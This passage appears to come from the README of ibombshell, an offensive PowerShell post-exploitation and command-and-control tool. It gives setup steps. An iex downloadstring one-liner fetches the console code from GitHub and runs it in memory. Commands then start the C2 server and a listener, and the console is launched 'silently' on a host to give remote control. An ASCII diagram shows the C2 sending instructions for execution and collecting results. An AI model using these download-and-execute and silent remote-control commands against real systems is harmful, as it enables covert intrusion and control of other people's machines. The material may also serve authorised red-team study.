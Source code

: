 ```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/lucferbux/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```

# Docker

We have created a docker container with everything you need to make it works. Run this command from Dockerfile location.
